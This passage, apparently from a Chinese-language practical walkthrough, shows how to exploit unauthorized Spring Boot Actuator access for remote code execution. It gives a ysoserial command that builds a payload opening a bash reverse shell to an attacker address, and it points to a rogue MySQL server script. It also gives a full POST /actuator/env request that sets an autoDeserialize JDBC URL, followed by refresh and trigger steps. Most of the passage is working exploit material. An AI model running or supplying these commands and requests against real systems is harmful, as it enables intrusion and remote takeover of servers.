 ![image-20210901112521481](Spring Boot Actuator未授权访问利用实战利用.assets/image-20210901112521481.png)



然后架设恶意 rogue mysql server，使用 [ysoserial](https://github.com/frohoff/ysoserial) 自定义要执行的命令，讲生成的文件放置在

```
java -jar ysoserial.jar CommonsCollections3 ‘bash -i >& /dev/tcp/192.168.233.242/1234 0>&1’ > payload.ser
```



然后运行 [springboot-jdbc-deserialization-rce.py](https://raw.githubusercontent.com/LandGrey/SpringBootVulExploit/master/codebase/springboot-jdbc-deserialization-rce.py) 脚本开启3306端口

![image-20210901141559697](Spring Boot Actuator未授权访问利用实战利用.assets/image-20210901141559697.png)



POST方式构造请求/actuator/env，设置spring.datasource.url为上面开启服务的ip地址

请求报文如下:

```
POST /actuator/env HTTP/1.1
Host: 192.168.233.242:9097
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:91.0) Gecko/20100101 Firefox/91.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
Cache-Control: max-age=0
Content-Type: application/json
Content-Length: 216

{"name":"spring.datasource.url","value":"jdbc:mysql://192.168.233.242:3306/mysql?characterEncoding=utf8&useSSL=false&queryInterceptors=com.mysql.cj.jdbc.interceptors.ServerStatusDiffInterceptor&autoDeserialize=true"}
```

![image-20210901142357376](Spring Boot Actuator未授权访问利用实战利用.assets/image-20210901142357376.png)



访问/actuator/refresh刷新配置

![image-20210901142612261](Spring Boot Actuator未授权访问利用实战利用.assets/image-20210901142612261.png)



在接着访问数据库查询的接口，在调用数据库服务的时候就会请求上面设置的url

例如： `/product/list` ，或者寻找其他方式，主动触发源网站进行数据库查询，然后漏洞会被触发



可以看到前面开启的mysql服务中会显示连接的客户端和返回的一些内容

![image-20210901142838024](Spring Boot Actuator未授权访问利用实战利用.assets/image-20210901142838024.png)
